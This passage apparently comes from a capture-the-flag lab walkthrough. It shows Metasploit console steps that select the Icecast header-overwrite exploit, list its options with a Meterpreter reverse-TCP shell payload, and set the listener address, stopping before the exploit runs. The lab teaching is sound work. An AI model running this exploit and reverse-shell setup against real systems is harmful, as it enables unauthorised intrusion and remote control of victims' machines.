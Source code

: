 ~~~
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header

msf6 >
~~~
#5
Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result. 
~~~
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) >
~~~
#6 Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?
~~~
msf6 exploit(windows/http/icecast_header) > show options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasp
                                      loit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.3      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/icecast_header) >
~~~
First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`
~~~
msf6 exploit(windows/http/icecast_header) > set LHOST 10.8.5.88
LHOST => 10.8.5.88
msf6 exploit(windows/http/icecast_header) > 
~~~
